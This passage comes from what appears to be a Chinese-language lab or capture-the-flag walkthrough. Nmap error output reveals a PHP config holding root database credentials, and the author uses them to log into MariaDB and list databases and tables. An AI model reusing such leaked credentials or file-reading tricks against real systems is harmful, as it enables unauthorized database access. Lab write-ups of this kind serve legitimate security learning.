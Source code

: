 ```bash
Failed to resolve "obtain".
Failed to resolve "root:".
Failed to resolve "<?php".
Failed to resolve "$dbname".
Failed to resolve "=".
Failed to resolve "'easy';".
Failed to resolve "$dbuser".
Failed to resolve "=".
Failed to resolve "'root';".
Failed to resolve "$dbpass".
Failed to resolve "=".
Failed to resolve "'Savingmypass';".
Failed to resolve "$dbhost".
Failed to resolve "=".
Failed to resolve "'localhost';".
Failed to resolve "?>".
Failed to resolve "<a".
Unable to split netmask from target expression: "href="oliva">CLICK!</a>"
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 65.35 seconds
```

通过查看 `index.php` 中的内容，发现数据库登录信息，并登录 MariaDB 数据库：

```bash
┌──(kali㉿kali)-[~/test]
└─$ mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 5
Server version: 10.11.3-MariaDB-1 Debian 12
```

查看数据库 `easy`：

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| easy               |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

MariaDB [(none)]> use easy;
MariaDB [easy]> show tables;
+----------------+
| Tables_in_easy |
+----------------+
| logging        |
+----------------+
```
